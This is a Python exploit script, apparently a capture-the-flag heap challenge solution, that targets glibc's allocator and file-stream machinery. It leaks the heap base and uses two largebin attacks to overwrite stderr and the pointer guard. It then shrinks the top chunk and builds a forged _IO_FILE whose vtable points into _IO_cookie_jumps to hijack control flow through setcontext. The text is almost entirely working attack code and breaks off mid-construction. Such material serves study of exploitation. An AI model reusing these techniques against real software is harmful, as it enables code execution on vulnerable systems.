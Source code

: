 ```python
# mov rdx, qword ptr [rdi + 8]; mov qword ptr [rsp], rax; call qword ptr [rdx + 0x20];
setcontext_addr = libc_base + libc.sym['setcontext']
IO_cookie_jumps = libc_base + 0x219ae0# p/x &_IO_cookie_jumps
lg("setcontext_addr")

# leak heapbase
edit(2, "a" * 0x10)
show(2)
run_opcode()
p.recvuntil("a" * 0x10)
heap_base = u64(p.recv(6).ljust(8, '\x00')) - 0x2ae0
lg("heap_base")

# largebin attack stderr
arena_large = libc_base + 0x2190b0
chunk0 = heap_base + 0x22a0
chunk2 = heap_base + 0x2ae0

delete(0)
edit(2, p64(arena_large) * 2 + p64(chunk2) + p64(libc_base +libc.sym['stderr'] - 0x20))
add(5, 0x430)
edit(2, p64(chunk0) + p64(arena_large) + p64(chunk0) * 2)# fd->chunk0 bk->largebin fd/bksize->chunk0
edit(0, p64(arena_large) + p64(chunk2) * 3)# fd->largebin bk->chunk2 fd/bksize->chunk2
add(0, 0x410)
add(2, 0x420)
run_opcode()
dbg()

# largebin attack guard
delete(2)
add(6, 0x430)
delete(0)
edit(2, p64(arena_large) * 2 + p64(chunk2) + p64(guard - 0x20))
add(7, 0x450)
edit(2, p64(chunk0) + p64(arena_large) + p64(chunk0) * 2)# fd->chunk0 bk->largebin fd/bksize->chunk0
edit(0, p64(arena_large) + p64(chunk2) * 3)# fd->largebin bk->chunk2 fd/bksize->chunk2
add(0, 0x410)# add both ok
add(2, 0x420)


# change top chunk size
delete(7)
add(8, 0x430)
edit(7, 'a' * 0x438 + p64(0x300))
run_opcode()

next_chain = 0
fake_IO_FILE = 2 * p64(0)
fake_IO_FILE += p64(0)  # _IO_write_base = 0
fake_IO_FILE += p64(0xffffffffffffffff)  # _IO_write_ptr = 0xffffffffffffffff
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(0)  # _IO_buf_base
fake_IO_FILE += p64(0)  # _IO_buf_end
fake_IO_FILE = fake_IO_FILE.ljust(0x58, '\x00')
fake_IO_FILE += p64(next_chain)  # _chain
fake_IO_FILE = fake_IO_FILE.ljust(0x78, '\x00')
fake_IO_FILE += p64(heap_base)  # _lock = writable address
fake_IO_FILE = fake_IO_FILE.ljust(0xB0, '\x00')
fake_IO_FILE += p64(0)  # _mode = 0
fake_IO_FILE = fake_IO_FILE.ljust(0xC8, '\x00')
fake_IO_FILE += p64(IO_cookie_jumps+0x40)  # vtable
```